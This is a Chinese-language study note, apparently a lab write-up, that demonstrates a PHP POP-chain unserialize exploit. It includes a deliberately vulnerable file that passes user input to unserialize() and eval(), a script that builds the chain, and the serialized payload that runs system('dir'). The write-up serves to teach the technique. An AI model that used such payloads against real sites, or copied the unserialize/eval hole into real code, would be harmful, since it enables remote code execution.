


---
tags:
  - pop
  - PHP
  - serialize
Date: 2026-01-12
---
POP链演示
```php
<?php  
highlight_file(__FILE__);  
error_reporting(0);  
class index {  
    private $test;  
    public function __construct(){        $this->test = new normal();  
    }  
    public function __destruct(){        $this->test->action();  
    }  
}  
class normal {  
    public function action(){  
        echo "please attack me";  
    }  
}  
class evil {  
    var $test2;  
    public function action(){  
        eval($this->test2);  
    }  
}  
unserialize($_GET['test']);  
?>
```

1.可利用的漏洞点在evil类的eval()
2.eval调用$test2
3.需要调用action()，上推到index类的destruct()，其中$test又调用了action()
4.php执行的时候$test赋值为normal类的一个对象，最后会执行normal类下的action()

对于最后的接收参数test，并且反序列化，一定会执行destruct()
因此只需要调整test的参数即可
对test赋值的时候将normal类更改到对应的evil类

重新构造一个test为新的对象，pop链：
```php
<?php

//highlight_file(__FILE__);

error_reporting(0);

class index

{

    private $test;

    public function __construct()

    {

        $this->test = new evil();

    }

}

class evil

{

    var $test2 = "system('ls');";

}

  

$a = new index();

echo serialize($a);

$b = urlencode(serialize($a));

echo "\n";

echo $b;
?>
```
得到能够触发漏洞的$test
此时的test赋值为evil的一个对象，并且属性test2赋值为eval里需要执行的代码
```php
O:5:"index":1:{s:11:"indextest";O:4:"evil":1:{s:5:"test2";s:14:"system('dir');";}}

O%3A5%3A%22index%22%3A1%3A%7Bs%3A11%3A%22%00index%00test%22%3BO%3A4%3A%22evil%22%3A1%3A%7Bs%3A5%3A%22test2%22%3Bs%3A14%3A%22system%28%27dir%27%29%3B%22%3B%7D%7D
```

本地和靶机效果





因此通过重构pop链构造出了新的test传入从而触发漏洞点